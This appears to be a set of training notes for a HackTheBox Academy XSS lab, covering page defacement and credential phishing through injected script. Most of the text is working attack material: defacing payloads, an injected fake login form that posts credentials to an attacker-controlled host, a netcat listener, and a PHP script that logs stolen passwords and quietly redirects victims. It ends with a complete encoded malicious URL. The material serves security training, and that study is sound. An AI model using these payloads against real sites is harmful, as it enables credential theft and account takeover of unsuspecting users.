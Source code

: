 # 📿 XSS Attacks

## Defacing

`Defacing` a website means changing its look for anyone who visits the website.

We can utilize injected JavaScript code (through XSS) to make a web page look any way we like.

Here are the HTML elements are usually utilized to change the main look of a web page:

* Background Color `document.body.style.background`
* Background `document.body.background`
* Page Title `document.title`
* Page Text `DOM.innerHTML`

Example payload to change the background

```html
<script>document.body.style.background = "#141d2b"</script>
```

Set an image to background:

```html
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>
```

Change the title of the website:

```html
<script>document.title = 'HackTheBox Academy'</script>
```

Changing some text on the page:

```javascript
document.getElementById("todo").innerHTML = "New Text"
```

We can also utilize jQuery functions for more efficiently achieving the same thing or for changing the text of multiple elements in one line (to do so, the `jQuery` library must have been imported within the page source):

```javascript
$("#todo").html('New Text');
```

To erase the content of the website and change the body:

```javascript
document.getElementsByTagName('body')[0].innerHTML = "New Text"
```

We can also minify our html code and inject it as a one-liner:&#x20;

```html
<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy"> </p></center>'</script>
```

## Phishing

A common form of XSS phishing attacks is through injecting fake login forms that send the login details to the attacker's server, which may then be used to log in on behalf of the victim and gain control over their account and sensitive information.

Here is a HTML form used for phishing:

```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

To inject it ->

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

<figure><img src="../../../.gitbook/assets/image (1396).png" alt=""><figcaption></figcaption></figure>

In this case, we are exploiting a `Reflected XSS` vulnerability, so we can copy the URL and our XSS payload in its parameters, as we've done in the `Reflected XSS` section, and the page should look as follows when we visit the malicious URL

Payload to remove some HTML on a page:

```javascript
document.getElementById('urlform').remove();
```

So our payload becomes:

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

We can comment out any HTML, by adding an HTML opening comment after our XSS payload

```html
<!-- 
```

Now to steal the credentials we must set up our listener ->

```shell-session
sudo nc -lvnp 80
```

And now if our target decides to login with the credentials `test:test`, and check the `netcat` output we get

```shell-session
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.XX.XX] XXXXX
GET /?username=test&password=test&submit=Login HTTP/1.1
Host: 10.10.XX.XX
...SNIP...
```

However, as we are only listening with a `netcat` listener, it will not handle the HTTP request correctly, and the victim would get an `Unable to connect` error, which may raise some suspicions. So, we can use a basic PHP script that logs the credentials from the HTTP request and then returns the victim to the original page without any injections. In this case, the victim may think that they successfully logged in and will use the Image Viewer as intended.

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

We can start our server like this:

```shell-session
ElFelixi0@htb[/htb]$ mkdir /tmp/tmpserver
ElFelixi0@htb[/htb]$ cd /tmp/tmpserver
ElFelixi0@htb[/htb]$ vi index.php #at this step we wrote our index.php file
ElFelixi0@htb[/htb]$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```

_**Try to find a working XSS payload for the Image URL form found at '/phishing' in the above server, and then use what you learned in this section to prepare a malicious URL that injects a malicious login form. Then visit '/phishing/send.php' to send the URL to the victim, and they will log into the malicious login form. If you did everything correctly, you should receive the victim's login credentials, which you can use to login to '/phishing/login.php' and obtain the flag.**_

```
http://10.129.222.127/phishing/index.php?url=%3Cscript%3Edocument.write%28%27%3Ch3%3EPlease+login+to+continue%3C%2Fh3%3E%3Cform+action%3Dhttp%3A%2F%2F10.10.15.182%3E%3Cinput+type%3D%22username%22+name%3D%22username%22+placeholder%3D%22Username%22%3E%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22Password%22%3E%3Cinput+type%3D%22submit%22+name%3D%22submit%22+value%3D%22Login%22%3E%3C%2Fform%3E%27%29%3B%3C%2Fscript%3E
```
